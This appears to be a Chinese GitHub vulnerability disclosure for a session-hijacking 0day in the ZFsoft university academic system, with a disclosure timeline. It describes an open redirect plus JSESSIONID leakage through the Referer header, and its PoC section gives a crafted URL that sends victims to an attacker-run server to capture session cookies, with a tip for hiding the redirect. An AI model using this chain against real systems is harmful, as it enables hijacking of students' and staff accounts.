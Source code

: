 # zfsoft-Hijacking-0day-PoC
正方教务系统Session Hijacking通杀0day

**仅供学习研究使用，不对任何滥用行为负责。**

- 通用漏洞，测试过多所高校。
- 状态：已被厂商接受，仅在SJTU修复

可与另一水平权限绕过漏洞组合，本文仅公开PoC。

## 任意重定向
浏览器会话期初次访问会设置JSESSIONID，认证通过后会回到上次浏览的界面，考虑如下地址: `http://x.edu.cn/1`由于不存在会被跳转到主页`http://x.edu.cn/xtgl/login_slogin.html;jsessionid=<id>`，注意这里只有浏览器会话期初次访问，也就是原来没有cookie的时候才会以这样的方式设置JSESSIONID，这时候认证通过之后就会跳转回`http://x.edu.cn/1`

登陆成功后会有302重定向

    HTTP/1.1 302 Found
    X-Powered-By: Servlet/3.0 JSP/2.2 (Apache Tomcat/7.0.92 Java/Oracle Corporation/1.8.0_201-b09)
    X-Frame-Options: SAMEORIGIN
    X-XSS-Protection: 1; mode=block
    X-Content-Type-Options: nosniff
    Set-Cookie: rememberMe=deleteMe; Path=/; Max-Age=0; Expires=Sun, 09-Jun-2019 15:10:06 GMT
    Location: /1
    Content-Language: zh-CN
    Content-Length: 0
    Date: Mon, 10 Jun 2019 15:10:06 GMT
    Server: ZFSOFT.Inc
    Set-Cookie: kc@x.edu.cn=<cookie>;expires=Mon, 10-Jun-2019 20:14:30 GMT;path=/

可以看到这里的`Location`就是我们开始访问的地址，既然可以控制这个我就试了下不过没有CRLF Injection :(\
然而我们还可以用`//`例如`http://x.edu.cn//www.baidu.com`绕过限制从而达到任意网址跳转

## Referer泄漏
我们已经可以控制登陆成功后的重定向地址了，JAVA会在首次访问的时候设置JSESSIONID。然而由于Java Spring默认的奇怪操作会把它的值显示在URL中比如`http://x.edu.cn/xtgl/login_slogin.html;jsessionid=<id>`，这样认证的时候HTTP头中的Referer就会泄漏掉它。\
**有些学校不使用内建的登陆系统（比如采用OAuth2），这时候有可能会在认证的时候覆盖掉Referer导致攻击失效。经测试如OAuth支持SSO，在已经登陆的前提下可能不会覆盖Referer，需要具体测试。**

## PoC
攻击条件:
- 目标系统部署在根目录（`/xtgl/`在根路径下）
- 使用内置登陆或通过SSO等
- 浏览器会话期未访问过目标网站

开一个简单的服务器(网上找的，为了更加隐蔽可以重定向到`x.edu.cn`，这样受害者就不会察觉了，我们这里为了看到效果返回200)：

    python2 server.py

目标URL: `http://x.edu.cn//<ip>:1926`\
受害者访问此URL，就会被重定向到首页（从这个时候起URL是看不出任何异常的），认证通过后会被重定向到`<ip>:1926`，我们可以从服务端的输出看到JSESSIONID。
替换一下Cookie即可登录受害者账户，可结合其他漏洞提权等等，此处不公开。

![oops.png](oops.png)

## 修复
在SJTU系统中首次发现并上报，现在URL中不会出现JSESSIONID了，攻击链切断。但是任意重定向依然没有被修复（差评），如能找到XSS或者OAuth2认证不严格的缺陷依然有可能攻击（理论上这时候攻击条件还能更弱）。

## 时间节点
- 2019-06-09 漏洞初次发现
- 2019-06-10 漏洞上报
- 2019-06-11 厂商确认，优先度高危，RANK 7/10
- 2019-06-16 测试发现SJTU系统已经修复
- 2019-06-23 漏洞公开
